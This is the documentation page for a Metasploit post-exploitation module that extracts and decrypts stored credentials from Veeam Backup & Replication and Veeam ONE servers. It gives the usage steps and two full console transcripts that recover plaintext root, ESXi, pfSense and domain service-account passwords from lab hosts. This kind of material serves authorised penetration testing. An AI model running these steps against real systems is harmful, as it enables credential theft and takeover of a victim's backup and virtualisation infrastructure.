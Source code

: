 ## Vulnerable Application

This module exports and decrypts credentials from Veeam Backup & Replication and Veeam ONE Monitor
Server to a CSV file; it is intended as a post-exploitation module for Windows hosts with either of
these products installed. The module supports automatic detection of VBR & Veeam ONE and is capable
of decrypting credentials for all versions including the latest build of 11.x. Credentials are
automatically added to loot.

## Actions

### Dump

`dump` is the default action and performs extraction of the Veeam product database parameters and
encryption keys. This action also exports SQL data and immediately decrypts it. Invoking the `dump`
action requires SYSTEM level permissions on the target host in order to extract AES keys.

### Export

`export` performs SQL data extraction of the encrypted data as a CSV file; use this option if it is
necessary to migrate the Meterpreter session to a new non-SYSTEM identity in order to access the SQL
database. Invoking the `export` action requires the Meterpreter session to be running in the context
of a user that has access to the configured SQL database.

## Verification Steps

1. Start msfconsole
2. Get session on host via method of choice and background it
3. Do: `use post/windows/gather/credentials/veeam_credential_dump`
4. Do: `set session <session>`
5. Do: `dump` to extract and decrypt, or `export` to extract the encrypted database only

If `dump` or `export` fail, the session identity may need permission to log in to SQL; see
`Scenarios`.

## Advanced Options

### BATCH_DPAPI

The module performs Windows DPAPI decryption using calls to `psh_exec`; this is not performant
when running many decryptions in sequence. By default, the module will attempt to gather and
the encrypted payloads and process them in a single batch, passing them as a static array built
on the PS command line. This greatly improves performance but may cause issues with there are a
large number of secrets that attempt to decrypt in parallel. Set this option to `false` to
suppress this behavior, and force the module to make DPAPI decryption calls sequentially rather
than in parallel batches.

## Scenarios

### SQL Data Acquisition

The `sqlcmd` binaries (part of the SQL Server Management Studio) must be installed on the system
to access the database. Columns are cast `VARBINARY` to deal with poor CSV export support in
`sqlcmd`. If the database is configured migrate the session PID to an identity with permission
to log on to the SQL server.

### Examples

Windows Server 2019 host running Veeam Backup & Recovery and Veeam ONE with SQL SSPI using the `dump` action:

```
msf6 exploit(multi/handler) > use windows/gather/credentials/veeam_credential_dump
msf6 post(windows/gather/credentials/veeam_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/veeam_credential_dump) > dump

[*] Hostname VEEAM01 IPv4 192.168.101.39
[*] Veeam Backup & Replication Install Path: C:\Program Files\Veeam\Backup and Replication\Backup
[+] Compressed size: 1336
[*] Veeam Backup & Replication Build 11.0.1.1261
[*] Veeam ONE Monitor Install Path: C:\Program Files\Veeam\Veeam ONE\Veeam ONE Monitor Server
[+] Compressed size: 1268
[*] Veeam ONE Monitor Build 11.0.0.1379
[+] Compressed size: 1336
[*] Get Veeam SQL Parameters ...
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAM01\VEEAMSQL2016
[+]     Database Name: VeeamBackup
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAM01\VEEAMSQL2016
[+]     Database Name: VeeamONE
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of Veeam Backup & Replication SQL database to CSV file
[*] Export Veeam Backup & Replication DB ...
[+] 11 rows exported, 11 unique IDs
[+] Encrypted Veeam Backup & Replication Database Dump: /root/.msf4/loot/20221209091141_default_192.168.101.39_veeam_vbr_enc_871500.txt
[*] Performing export of Veeam ONE Monitor SQL database to CSV file
[*] Export Veeam ONE Monitor DB ...
[+] 1 rows exported, 1 unique IDs
[+] Encrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209091141_default_192.168.101.39_veeam_vom_enc_278493.txt
[*] Performing decryption of Veeam Backup & Replication SQL database
[+] 11 VBR rows loaded, 11 unique IDs
[*] Process Veeam Backup & Replication DB ...
[+] Compressed size: 1408
[+] Compressed size: 4864
[+] 11 VBR rows processed
[*] 7 rows recovered: 0 plaintext, 7 decrypted (4 blank)
[*] 7 rows written (4 blank rows withheld)
[+] 7 unique VBR ID records recovered
[+] Recovered Credential: Linux root
[+]     L: root
[+]     P: SK!nP0pp3r
[+] Recovered Credential: pfSense admin
[+]     L: admin
[+]     P: Quit2Day!
[+] Recovered Credential: root
[+]     L: root
[+]     P: SK!nP0pp3r
[+] Recovered Credential: Linux user
[+]     L: cs137
[+]     P: Quit2Day!
[+] Recovered Credential: ESXi root
[+]     L: root
[+]     P: Quit2Day!
[+] Recovered Credential: CESIUM137\vSphereSvc
[+]     L: CESIUM137\vSphereSvc
[+]     P: $XklZZiCpToP5wn7
[+] Recovered Credential: NetScaler nsroot
[+]     L: nsroot
[+]     P: Quit2Day!
[+] Decrypted Veeam Backup & Replication Database Dump: /root/.msf4/loot/20221209091150_default_192.168.101.39_veeam_vbr_dec_391876.txt
[*] Performing decryption of Veeam ONE Monitor SQL database
[+] 1 VOM rows loaded, 1 unique IDs
[*] Process Veeam ONE Monitor DB ...
[+] 1 VOM rows processed
[*] 1 rows recovered: 0 plaintext, 1 decrypted (0 blank)
[*] 1 rows written (0 blank rows withheld)
[+] 1 unique VOM ID records recovered
[+] Recovered Credential: VeeamONE Credential
[+]     L: CESIUM137\vSphereSvc
[+]     P: $XklZZiCpToP5wn7
[+] Decrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209091150_default_192.168.101.39_veeam_vom_dec_557706.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/veeam_credential_dump) > 
```

Windows Server 2019 host running Veeam ONE with SQL native auth using the `dump` action:

```
msf6 exploit(multi/handler) > use windows/gather/credentials/veeam_credential_dump
msf6 post(windows/gather/credentials/veeam_credential_dump) > set session 1
session => 1
msf6 post(windows/gather/credentials/veeam_credential_dump) > dump

[*] Hostname VEEAMONE IPv4 192.168.101.143
[*] Veeam ONE Monitor Install Path: C:\Program Files\Veeam\Veeam ONE\Veeam ONE Monitor Server
[+] Compressed size: 1268
[*] Veeam ONE Monitor Build 11.0.1.1880
[+] Compressed size: 1336
[*] Get Veeam SQL Parameters ...
[+] Compressed size: 2280
[+] Compressed size: 2344
[+] SQL Database Connection Configuration:
[+]     Instance Name: VEEAMONE\VEEAMSQL2016
[+]     Database Name: VeeamONE
[+]     Database User: sa
[+]     Database Pass: AintEZB3ingGr33n
[*] Performing export of Veeam ONE Monitor SQL database to CSV file
[*] Export Veeam ONE Monitor DB ...
[+] 2 rows exported, 2 unique IDs
[+] Encrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209090827_default_192.168.101.143_veeam_vom_enc_319808.txt
[*] Performing decryption of Veeam ONE Monitor SQL database
[+] 2 VOM rows loaded, 2 unique IDs
[*] Process Veeam ONE Monitor DB ...
[+] Compressed size: 2248
[+] Compressed size: 2312
[+] 2 VOM rows processed
[*] 2 rows recovered: 0 plaintext, 2 decrypted (0 blank)
[*] 2 rows written (0 blank rows withheld)
[+] 2 unique VOM ID records recovered
[+] Recovered Credential: VeeamONE Credential
[+]     L: sa
[+]     P: AintEZB3ingGr33n
[+] Recovered Credential: VeeamONE Credential
[+]     L: CESIUM137\a.a.ron
[+]     P: 1n$uB0rdin@te&CHuRli$h
[+] Decrypted Veeam ONE Monitor Database Dump: /root/.msf4/loot/20221209090835_default_192.168.101.143_veeam_vom_dec_424908.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/veeam_credential_dump) >
```
